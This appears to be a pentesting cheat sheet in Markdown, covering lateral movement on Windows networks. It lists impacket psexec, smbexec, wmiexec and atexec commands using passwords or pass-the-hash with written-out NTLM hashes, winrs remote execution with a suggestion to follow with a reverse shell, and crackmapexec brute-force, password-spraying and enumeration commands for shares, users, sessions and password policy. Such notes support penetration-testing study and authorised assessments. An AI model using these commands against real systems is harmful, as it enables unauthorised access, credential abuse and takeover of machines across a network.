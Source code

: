 - Here we can pass the credentials or even hash, depending on what we have

> *Always pass full hash to these tools!*

```bash
impacket-psexec <domain>/<user>:<password1>@IP
# the user should have write access to Admin share then only we can get sesssion

impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 <domain>/<user>@IP <command> 
# we passed full hash here

impacket-smbexec <domain>/<user>:<password1>@IP

impacket-smbexec -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 <domain>/<user>@IP <command> 
# we passed full hash here

impacket-wmiexec <domain>/<user>:<password1>@IP

impacket-wmiexec -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 <domain>/<user>@IP <command> 
# we passed full hash here

impacket-atexec -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 <domain>/<user>@IP <command>
# we passed full hash here
```

## winrs

```bash
winrs -r:<computername> -u:<user> -p:<password> "command"
# run this and check whether the user has access on the machine, if you have access then run a bash reverse-shell
# run this on windows session
```

## crackmapexec

```bash
# supported services
crackmapexec {smb/winrm/mssql/ldap/ftp/ssh/rdp} 
# Bruteforcing attack, smb can be replaced. Shows "Pwned"
crackmapexec smb <Rhost/range> -u user.txt -p password.txt --continue-on-success 
# grepping the way out!
crackmapexec smb <Rhost/range> -u user.txt -p password.txt --continue-on-success | grep '[+]' 
# Password spraying, viceversa can also be done
crackmapexec smb <Rhost/range> -u user.txt -p 'password' --continue-on-success  

# Try --local-auth option if nothing comes up
# lists all shares, provide creds if you have one
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --shares

# lists all disks
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --disks

# lists all users, provide DC ip
crackmapexec smb <DC-IP> -u 'user' -p 'password' --users

# lists active logon sessions
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --sessions

# dumps password policy
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --pass-pol
```
